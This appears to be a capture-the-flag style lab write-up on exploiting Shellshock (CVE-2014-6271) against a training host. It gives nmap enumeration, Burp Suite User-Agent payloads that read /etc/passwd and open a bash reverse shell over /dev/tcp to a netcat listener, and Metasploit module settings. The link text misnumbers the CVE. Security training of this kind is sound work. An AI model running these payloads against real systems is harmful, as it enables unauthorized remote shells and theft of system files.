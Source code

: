 # 🔬Bash

## Lab 1

>  🔬 [Shellshock](https://attackdefense.com/challengedetailsnoauth?cid=1911)
>
>  - Target IP: `192.173.104.3`
>  - **Bash Exploitation** - [CVE-2014-6071](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)

### Enumeration

```bash
eth1@if54460  UP  192.173.104.2/24 
# target IP is 192.173.104.3
```

```bash
nmap -sV 192.173.104.3
```

```bash
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
```

![nmap](.gitbook/assets/image-20230319153733972.png)

- Check the website via a browser:
  - `http://192.173.104.3/`
- View Page Source
  - `http://192.173.104.3/gettime.cgi`
  - `gettime.cgi` script can be utilized as the attack vector

![](.gitbook/assets/image-20230319153935041.png)

- Check if the server is vulnerable to ShellShock

```bash
nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" 192.173.104.3
```

![nmap http-shellshock](.gitbook/assets/image-20230319154317003.png)

### Manual Exploitation

- [Shellshock exploitable environment](https://github.com/opsxcq/exploit-CVE-2014-6271)
- To inject special characters into the `user-agent` HTTP header, [BurpSuite](https://portswigger.net/burp) can be used.
  - Configure FoxyProxy on Firefox, click on Burp Suite in FoxyProxy and run Burp Suite
  - Inside Proxy menu, turn **Intercept On**
- Reload the `/gettime.cgi` webpage in Firefox and intercept the response in BurpSuite

![](.gitbook/assets/image-20230319155107668.png)

- Send the request to the **Repeater**
- Replace `User-Agent: ` value with characters:

```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

- **Send** the request and check the Response

![](.gitbook/assets/image-20230319155542778.png)

> 📌 The target is vulnerable to ShellShock

### Reverse Shell

- Set up a listener

```bash
nc -nvlp 1234
```

- Open Burp Suite and change the command to connect to the `netcat` listener of the Kali VM. The payload will be:

```bash
() { :; }; echo; echo; /bin/bash -c 'bash -i >&/dev/tcp/192.173.104.2/1234 0>&1'
```

![](.gitbook/assets/image-20230319155950852.png)

![Reverse shell](.gitbook/assets/image-20230319160049083.png)

- *Turn off burpsuite listener and FoxyProxy.*

### Automatic Exploitation

```bash
msfconsole -q
```

```bash
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 192.173.104.3
# RPORT is ok, 80
set TARGETURI /gettime.cgi
exploit
```

![Metasploit apache_mod_cgi_bash_env_exec](.gitbook/assets/image-20230319160531195.png)

------


